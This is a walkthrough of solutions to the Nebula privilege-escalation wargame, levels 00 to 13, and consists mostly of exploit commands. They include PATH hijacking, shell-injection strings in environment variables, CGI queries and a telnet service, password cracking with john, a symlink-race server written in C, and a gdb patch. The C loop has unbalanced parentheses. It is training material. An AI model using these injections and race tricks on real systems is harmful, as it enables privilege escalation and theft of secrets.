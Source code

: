 # Nebula

To get higher res: Press [Tab] on grub boot screen and add `vga=795` to the end.

To enable SSH to the guest, set the network mode to `Bridged Adapter` (and reboot the guest if running). Then after every boot, login as `nebula` and run:

```bash
sudo ssh-keygen -t rsa -f /etc/ssh/ssh_host_rsa_key
```

Then get the ip with `ifconfig` and login using:
```bash
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no level11@172.16.55.4
```

This disables key caching because it will have a different key every time and you don't want the security warning.

### level00
`/rofs/bin/.../flag01`

### level01
```
export PATH=/home/level01:$PATH
echo bash > echo
chmod +x echo
/home/flag01/flag01
```

### level02
`USER='&& bash &&' /home/flag02/flag02`

### level03
```
echo 'getflag > getflag.txt' > /home/flag03/writable.d/getflag && chmod +x /home/flag03/writable.d/getflag
```

### level04
```
ln /home/flag04/token TOKEN
/home/flag04/flag04 TOKEN
```

### level05
```
tar xvzf /home/flag05/.backup/backup-19072011.tgz
ssh flag05@localhost
```

### level06

Run `sudo apt-get install john` using `nebula` user.

```
grep flag06 /etc/passwd
john /etc/passwd
```

### level07

```
wget -O - -q 'http://localhost:7007/index.cgi?Host=%3B getflag'
```

### level08

```
tcpflow -C -e -r ../flag08/capture.pcap
```

### level09

```
echo '[email {${`$use_me`}}]' > file
../flag09/flag09 file getflag
```

### level10

```c
// http://www.linuxhowtos.org/data/6/server.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

void error(const char *msg) {
  perror(msg);
  exit(1);
}

int main() {
  // start server on port 18211
  int portno = 18211;
  char buffer[256];
  struct sockaddr_in serv_addr, cli_addr;
  int sockfd = socket(AF_INET, SOCK_STREAM, 0);
  if (sockfd < 0) error("ERROR opening socket");
  bzero((char *) &serv_addr, sizeof(serv_addr));
  serv_addr.sin_family = AF_INET;
  serv_addr.sin_addr.s_addr = INADDR_ANY;
  serv_addr.sin_port = htons(portno);
  if (bind(sockfd, (struct sockaddr *) &serv_addr, sizeof(serv_addr)) < 0) error("ERROR on binding");

  // symlink file that it CAN read
  symlink("../flag10/.profile", "file");
  listen(sockfd, 5);
  socklen_t clilen = sizeof(cli_addr);
  int newsockfd = accept(sockfd, (struct sockaddr *) &cli_addr, &clilen);
  if (newsockfd < 0) error("ERROR on accept");

  // symlink the token file right after connection is established
  unlink("file");
  symlink("../flag10/token", "file");

  // read the data
  bzero(buffer, 256);
  int n;
  while ((n=read(newsockfd,buffer,255) > 0) {
    if (n < 0) error("ERROR reading from socket");
    puts(buffer);
  }

  close(newsockfd);
  close(sockfd);
  return 0;
}
```

```
gcc server.c && ./a.out
```

### level11

Buggy level, because the `system()` call doesn't run with the effective privileges (flag11 user). There is no call to `setresuid()`. When doing the easy solution, there is also a bug in the length check (always returns 1), so we can only pass in a single character.

```
level11@nebula:~$ echo -ne "Content-Length: 1\nE" | ../flag11/flag11
sh: $'D\200\227': command not found
```

We see here that `E` (chosen arbitrarily) is encoded to `D`. We can symlink `D` to `getflag`.

```
export PATH=`pwd`:$PATH
ln -s `which getflag` D
```

But there is an issue still. We can't terminate the string with a null character because we can only pass one character. So we have to run the command until the uninitialized memory happens to have a null character there.

And then repeat this until the getflag command runs:

```
echo -ne "Content-Length: 1\nE" | ../flag11/flag11
```

More info here: http://cybergibbons.com/security-2/nebula-walkthrough/nebula-exploit-exercises-walkthrough-level11/

### level12

```
telnet localhost 50001
4754a4f4bd5787accd33de887b9250a0691dd198 ; (getflag > ~/getflag.txt); echo test
cat ../flag12/getflag.txt
```

### level13

```
gdb -q ../flag13/flag13
break *main+48
commands 1
set $eax = 1000
c
end
r
```
